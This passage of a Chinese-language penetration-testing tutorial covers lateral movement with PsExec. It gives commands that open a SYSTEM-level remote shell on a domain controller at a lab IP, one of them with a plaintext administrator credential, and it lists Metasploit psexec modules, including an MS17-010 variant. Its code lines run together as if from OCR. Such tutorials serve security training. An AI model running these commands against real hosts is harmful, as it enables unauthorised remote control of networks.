 *   -p：密码
    
*   -s：以system权限运行运程进程，获得一个system权限的交互式shell。如果不使用该参数，会获得一个连接所用用户权限的shell
    

执行如上命令后，我们就可以获的目标主机DC的System权限的Shell：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

这里，如果我们提前与目标机建立了基于administrator用户的ipc连接，那么我们可以不用指定用户名和密码，直接连接即可：

```


```
PsExec.exe -accepteula \\192.168.183.130 cmd.exe
```




```

我们不仅可以用PsExec得到目标主机的shell，也可以直接执行命令：

```


```
PsExec.exe \\192.168.183.130 <Command>PsExec.exe \\192.168.183.130 cmd.exe /c "ipconfig"PsExec.exe \\192.168.183.130 -u demo\administrator -p Liu78963 cmd.exe /c "ipconfig"// 用目标系统的cmd.exe的/c选项在目标主机上执行命令，并得到回显（与前面的at命令相似）
```




```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

### Metasploit下的PsExec模块

在metasploit框架下，有以下这几个psexec模块：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

常用的模块有：

```


```
exploit/windows/smb/psexec           // 用psexec执行系统命令,与psexec.exe相同exploit/windows/smb/psexec_psh       // 使用powershell作为payload(PsExec的PowerShell版本)auxiliary/admin/smb/psexec_command   // 在目标机器上执行系统命令exploit/windows/smb/ms17_010_psexec
```




```
